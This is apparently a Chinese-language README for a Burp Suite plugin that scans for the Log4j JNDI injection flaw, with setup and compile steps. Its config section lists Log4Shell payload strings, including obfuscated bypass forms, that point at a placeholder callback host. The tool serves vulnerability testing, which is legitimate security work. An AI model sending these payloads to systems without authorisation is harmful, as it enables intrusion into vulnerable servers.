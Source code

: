 # log4jScan_Modify

![](images/burp.png)

**本插件修改自：https://github.com/pmiaowu/log4j2Scan/commit/d160bf2349cb2f423300469a48de53c75a8031ec**

**根据原插件DnsLogCn模块的判定逻辑，修改为对接 [JNDIMonitor [一个LDAP请求监听器，摆脱dnslog平台]](https://github.com/r00tSe7en/JNDIMonitor) 的`api2=all`接口使用。**

插件详情及编译方法参考：https://github.com/pmiaowu/log4j2Scan

# 插件使用

## 0x01 启动JNDIMonitor监听

参考：https://github.com/r00tSe7en/JNDIMonitor

## 0x02 修改和编译log4jScan_Modify插件

1）下载 `log4jScan_Modify` 源码

2）需要修改`log4j2Scan_modify\src\main\java\burp\DnsLogModule\ExtensionMethod\LdapLogCn.java`中的`ip:port`为`JNDIMonitor`监听的`ip`和`port`

```java
    private String dnslogDomainName = "http://ip:port/?api2=all"; //JNDIMonitor监听http的api2接口
    private String temporaryDomainName = "ip:port"; //JNDIMonitor监听ldap的接口
```

3）`config.yml`默认已经配好，由于对接的是`ldap`监听器，所以已经把不相关的其他协议`payload`注释掉了，如果还有其他的`ldap bypass payload` 可以自己手动加进去。

```yaml
#- "${jndi:dns://dnslog-url/t}"
#- "%24%7Bjndi%3Adns%3A%2F%2Fdnslog-url%2Ft%7D"
- "${jndi:ldap://dnslog-url/t}"
#- "${jndi:rmi://dnslog-url/t}"
- "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://dnslog-url/t}"
#- "${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://dnslog-url/t}"
```

4）修改完成后就可以开始编译了，生成的插件文件在如下目录。

```
log4j2Scan_modify\target\log4j2Scan
 -/resources/config.yml
 -log4jScan_modify.jar
```

5）开始被动检测即可，可以看到检测日志。

![](images/burp2.png)

# 感谢

@pmiaowu

@melon
